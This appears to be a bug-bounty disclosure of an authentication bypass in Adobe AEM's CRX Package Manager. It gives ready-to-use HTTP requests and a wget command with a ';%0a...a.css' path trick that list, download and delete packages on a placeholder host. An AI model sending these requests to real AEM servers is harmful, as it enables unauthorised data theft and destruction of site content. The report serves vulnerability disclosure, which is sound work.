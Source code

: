  # Undocumented authentication bypass in [$DOMAIN]

This bug allows attackers to bypass authentication and gain access to Package Manager if the security controls for out-of-box protection are manually removed. Packages enable the importing and exporting of repository content, and the Package Manager can be used for configuring, building, downloading, installing and deleting packages on local AEM installations. This issue allows an unauthorized user to view and download packages.


## Steps To Reproduce

You can list the packages using the following request:

```
GET /crx/packmgr/list.jsp;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0Aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true HTTP/1.1
Host: $DOMAIN
User-Agent: curl/123
Accept-Encoding: gzip, deflate
Referer: $URL
Content-Length: 2

```
The output is attached (list.txt)

From there an attacker can download any described package using the following URL on your browser:

`wget '$URL/crx/packmgr/service.jsp;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true&cmd=get&name=CR1345449_after' -o CR1345449_after.jar `  

You can decompress the file using:
`jar xf CR1345449_after.jar`

A file called DataMigrationBundle-content-1.0-SNAPSHOT.zip will be downloaded. You can do the same with all packages just changing the name in the 'name' parameter above.

Accessing this URL you can check all available operations:
`$URL/crx/packmgr/service.jsp;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true&cmd=help` 

You could also remove the packages using the following Request. (I didn't try to remove any packages, notice the name I used)

```
POST /crx/packmgr/service.jsp;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true&cmd=rm&name=TOREMOVE HTTP/1.1
Host: $DOMAIN
User-Agent: curl/123
Accept-Encoding: gzip, deflate
Connection: close
Referer: $URL
Content-Length: 2
```


## Impact

Is possible to read the content of the packages but also remove them. This might impact the normal functioning of the AEM instance. 

 
### Supporting Material/References
https://threatpost.com/rce-bug-in-adobe-revealed/167382/

https://labs.detectify.com/2021/06/28/aem-crx-bypass-0day-control-over-some-enterprise-aem-crx-package-manager/

